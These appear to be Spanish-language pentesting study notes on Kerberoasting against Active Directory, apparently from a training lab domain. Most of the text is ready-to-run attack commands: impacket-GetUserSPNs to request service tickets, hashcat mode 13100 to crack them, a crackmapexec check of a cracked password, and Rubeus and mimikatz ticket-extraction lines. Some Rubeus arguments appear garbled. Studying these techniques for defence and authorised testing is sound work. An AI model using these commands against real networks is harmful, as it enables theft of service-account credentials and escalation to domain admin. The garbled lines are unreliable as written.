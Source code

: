 # Kerberoasting

- Este ataque sirve para obtener credenciales de cuentas de servicios que están configurados con la autenticación Kerberos.
- En AD comunmente las cuentas de servicios tienen privilegios muy elevados.

## Como funciona

1. Solicitud TGS
2. Obtener Ticket.
3. Extraerlo con mimikatz o rubeus
4. Fuerza bruta o pass the ticket

- `sudo impacket-GetUserSPNs DOMAIN.LOCAL/USER:password -dc-ip IP -request`
- Guardar hash
- `hashcat -m 13100 hash.txt wordlist.txt`

## Listar cuentas
- `impacket-GetUserSPNs -dc-ip IP DOMAIN.LOCAL/USER`
- Ejemplo:
```powershell
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                           Name               MemberOf                                                                                  PasswordLastSet             LastLogon  Delegation 
---------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  ---------  ----------
backupjob/veam001.inlanefreight.local          BACKUPAGENT        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  <never>               
sts/inlanefreight.local                        SOLARWINDSMONITOR  CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:14:48.701834  <never>               
MSSQLSvc/SPSJDB.inlanefreight.local:1433       sqlprod            CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:09:46.326865  <never>               
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351  sqlqa              CN=Dev Accounts,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                        2022-02-15 17:10:06.545598  <never>               
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433  sqldev             CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:13:31.639334  <never>               
adfsconnect/azure01.inlanefreight.local        adfs               CN=ExchangeLegacyInterop,OU=Microsoft Exchange Security Groups,DC=INLANEFREIGHT,DC=LOCAL  2022-02-15 17:15:27.108079  <never> 
```

#### Chequear cuenta post crackeo
- `sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!`


## Extraer tickets desde Windows
- `Rubeus.exe asktgt /user:<usuario> /rc4:<contraseña>`
- `Rubeus.exe tgtreq /user:<usuario> /rc4:<spn>`
- `Rubeus tgtdeleg /ticket:<ticket_file>`
    - mimikatz: `mimikatz.exe "kerberos::list" "exit"`